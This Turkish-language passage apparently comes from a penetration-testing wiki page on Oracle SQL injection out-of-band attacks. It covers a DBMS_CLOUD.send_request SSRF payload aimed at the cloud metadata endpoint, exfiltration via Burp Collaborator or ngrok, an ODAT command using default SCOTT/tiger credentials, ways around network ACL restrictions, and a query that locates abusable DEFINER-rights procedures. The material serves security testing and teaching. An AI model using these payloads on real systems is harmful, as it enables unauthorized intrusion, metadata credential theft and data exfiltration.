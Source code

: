 ```sql
BEGIN
resp := DBMS_CLOUD.send_request(
credential_name => 'NOAUTH',
uri             => 'http://169.254.169.254/latest/meta-data/',
method          => 'GET',
timeout         => 3);
dbms_output.put_line(DBMS_CLOUD.get_response_text(resp));
END;
/
```
Çünkü `SEND_REQUEST` rastgele hedef URI'lerine izin veriyor, SQLi aracılığıyla kötüye kullanılabilir:
1. Dahili port taraması / SSRF bulut meta veri hizmetlerine.
2. HTTPS üzerinden dışarıdan veri sızdırma (Burp Collaborator veya bir `ngrok` tüneli kullanın).
3. Eski çağrı paketleri ACL'ler tarafından devre dışı bırakıldığında bile saldırgan sunuculara geri çağırmalar.

ℹ️ Eğer sadece klasik bir yerel 19c'ye sahipseniz ama Java saklı prosedürleri oluşturabiliyorsanız, bazen OCI istemci paketi üzerinden `DBMS_CLOUD` yükleyebilirsiniz — bazı angajmanlarda faydalıdır.

### **ODAT** ile saldırı yüzeyini otomatikleştirme

[ODAT – Oracle Database Attacking Tool](https://github.com/quentinhardy/odat) modern sürümlerle uyumlu kalmıştır (19c, 5.1.1 – Nisan-2022'ye kadar test edilmiştir). `–utl_http`, `–utl_tcp`, `–httpuritype` ve daha yeni `–dbms_cloud` modülleri otomatik olarak:
* Kullanılabilir çağrı paketlerini/ACL izinlerini tespit eder.
* Kör çıkarım için DNS ve HTTP geri çağırmalarını tetikler.
* Burp/SQLMap için kopyalamaya hazır SQL yükleri oluşturur.

Örnek: varsayılan kimlik bilgileri ile hızlı OOB kontrolü (arka planda ACL numaralandırmasını halleder):
```bash
odat all -s 10.10.10.5 -p 1521 -d XE -U SCOTT -P tiger --modules oob
```
### Son ağ ACL kısıtlamaları ve atlatmalar

Oracle, Temmuz 2023 CPU'sunda varsayılan Ağ ACL'lerini sıkılaştırdı — yetkisiz hesaplar artık varsayılan olarak `ORA-24247: network access denied by access control list` alıyor. İki desen, SQLi aracılığıyla çağrılara izin vermeye devam ediyor:
1. Hedef hesap, bir geliştirici tarafından entegrasyonlar için eklenen bir ACL girişine (`DBMS_NETWORK_ACL_ADMIN.create_acl`) sahiptir.
2. Saldırgan, *zaten* `AUTHID DEFINER` ve gerekli yetkilere sahip olan yüksek ayrıcalıklı bir PL/SQL tanımlayıcı hakları rutinini (örneğin, özel bir uygulamada) kötüye kullanır.

Sömürü sırasında `ORA-24247` ile karşılaşırsanız, her zaman yeniden kullanılabilir prosedürler arayın:
```sql
SELECT owner, object_name
FROM   dba_objects
WHERE  object_type = 'PROCEDURE'
AND  authid       = 'DEFINER';
```
(müfettişliklerde en az bir raporlama/ihracat prosedürü gerekli haklara sahipti).

---

## Referanslar

* Oracle Belgeleri – `DBMS_CLOUD.SEND_REQUEST` paketi tanımı ve örnekleri.
* quentinhardy/odat – Oracle Veritabanı Saldırı Aracı (son sürüm 5.1.1, Nis-2022).

{{#include ../../banners/hacktricks-training.md}}
